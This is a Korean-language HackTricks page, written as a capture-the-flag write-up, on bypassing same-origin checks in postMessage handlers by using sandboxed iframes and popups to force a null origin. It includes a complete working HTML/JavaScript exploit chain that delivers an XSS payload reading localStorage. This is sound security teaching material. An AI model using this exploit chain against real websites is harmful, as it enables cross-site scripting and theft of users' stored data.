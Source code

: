 # Bypassing SOP with Iframes - 1

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-1

이 [**도전 과제**](https://github.com/terjanq/same-origin-xss)는 [**NDevTK**](https://github.com/NDevTK)와 [**Terjanq**](https://github.com/terjanq)가 만든 것으로, 코딩된 XSS를 이용해야 합니다.
```javascript
const identifier = "4a600cd2d4f9aa1cfb5aa786"
onmessage = (e) => {
const data = e.data
if (e.origin !== window.origin && data.identifier !== identifier) return
if (data.type === "render") {
renderContainer.innerHTML = data.body
}
}
```
주요 문제는 [**메인 페이지**](https://so-xss.terjanq.me)가 DomPurify를 사용하여 `data.body`를 전송하기 때문에, 자신의 HTML 데이터를 해당 코드로 전송하려면 **bypass** `e.origin !== window.origin`을 해야 한다는 것입니다.

제안된 해결책을 살펴보겠습니다.

### SOP bypass 1 (e.origin === null)

`//example.org`가 **sandboxed iframe**에 포함되면, 페이지의 **origin**은 **`null`**이 됩니다. 즉, **`window.origin === null`**입니다. 따라서 `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">`를 통해 iframe을 포함시키기만 하면 **`null` origin**을 **강제**할 수 있습니다.

페이지가 **embeddable**이었다면, 그 방법으로 보호를 우회할 수 있습니다 (쿠키는 `SameSite=None`으로 설정해야 할 수도 있습니다).

### SOP bypass 2 (window.origin === null)

덜 알려진 사실은 **sandbox 값 `allow-popups`가 설정되면** **열린 팝업**이 모든 **sandboxed attributes**를 **상속**받는다는 것입니다. `allow-popups-to-escape-sandbox`가 설정되지 않는 한, **null origin**에서 **팝업**을 열면 팝업 내부의 **`window.origin`**도 **`null`**이 됩니다.

### Challenge Solution

따라서 이 챌린지에서는 **iframe**을 **생성**하고, 취약한 XSS 코드 핸들러가 있는 페이지(`/iframe.php`)로 **팝업을 열면**, `window.origin === e.origin`이므로 두 값이 모두 `null`이기 때문에 **XSS를 이용할 수 있는 페이로드를 전송**할 수 있습니다.

그 **페이로드**는 **식별자**를 가져와서 **XSS**를 **상위 페이지**(팝업을 연 페이지)로 **전송**하며, **상위 페이지**는 **취약한** `/iframe.php`로 **위치 변경**을 합니다. 식별자가 알려져 있기 때문에 `window.origin === e.origin` 조건이 만족되지 않아도 상관없습니다 (기억하세요, origin은 **origin**이 **`null`**인 iframe의 **팝업**입니다) 왜냐하면 `data.identifier === identifier`이기 때문입니다. 그러면 **XSS가 다시 트리거**되며, 이번에는 올바른 origin에서 발생합니다.
```html
<body>
<script>
f = document.createElement("iframe")

// Needed flags
f.sandbox = "allow-scripts allow-popups allow-top-navigation"

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll("\n", " ")

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f)
</script>
</body>
```
{{#include ../../banners/hacktricks-training.md}}
